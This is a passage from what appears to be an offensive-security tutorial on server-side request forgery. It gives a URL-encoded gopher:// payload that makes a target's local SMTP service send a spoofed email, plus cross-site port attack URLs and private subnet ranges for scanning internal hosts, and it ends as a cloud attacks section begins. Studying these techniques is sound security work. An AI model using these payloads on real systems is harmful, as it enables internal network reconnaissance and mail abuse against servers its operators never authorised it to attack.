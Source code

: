 ***Abusing Gopher***  
  
`https://target.com/page?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%attacker@attack.net%3E%250d%250aRCPT%20TO%3A%3Cvictim@target.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BAttacker%5D%20%3Cattacker@attack.net%3E%250d%250aTo%3A%20%3Cvictime@target.com%3E%250d%250aDate%3A%20Fri%2C%2013%20Mar%202020%2003%3A33%3A00%20-0600%250d%250aSubject%3A%20Hacked%250d%250a%250d%250aYou%27ve%20been%20exploited%20%3A%28%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a`  
  
`Makes request like:  
HELO localhost  
MAIL FROM:<attacker@attack.net>  
RCPT TO:<victim@target.com>  
DATA  
From: [Attacker] <attacker@attack.net>  
To: <victim@target.com>  
Date: Fri, 13 Mar 2020 03:33:00 -0600  
Subject: Hacked  
  
You've been exploited :(`  
  
`.  
QUIT`

- **Cross-Site Port Attack (XSPA)** : 
Cross-Site Port Attack (XSPA) is a type of SSRF where an attacker is able to scan the server for its open ports. This is usually done by using the loopback interface on the server (`127.0.0.1` or `localhost`) with the addition of the port that is being scanned (`21, 22, 25...`).  
 
 ***Abusing XSPA***  
Some examples are:  
  
`https://target.com/page?url=http://localhost:22/  
https://target.com/page?url=http://127.0.0.1:25/  
https://target.com/page?url=http://127.0.0.1:3389/  
https://target.com/page?url=http://localhost:PORT/`  

![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/port.png)
  ![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/port2.png)
   
   ***Subnet Scan***  
   
Besides scanning for ports an attacker might also run a scan of running hosts by trying to ping private IP addresses:

-   `**192.168.0.0/16**`
-   `**172.16.0.0/12**`
-   `**10.0.0.0/8**`

Useful Links : https://ibreak.software/2012/11/cross-site-port-attacks-xspa-part-1/
## **Cloud Attacks**

With practically every business running on some kind of a cloud network and database, securing the cloud has never been more important, here are the most important reasons why.  With 96% of all enterprises in the U.S. Using some form of cloud computing, it’s clear that this technology has experienced a rapid proliferation in the past few years.
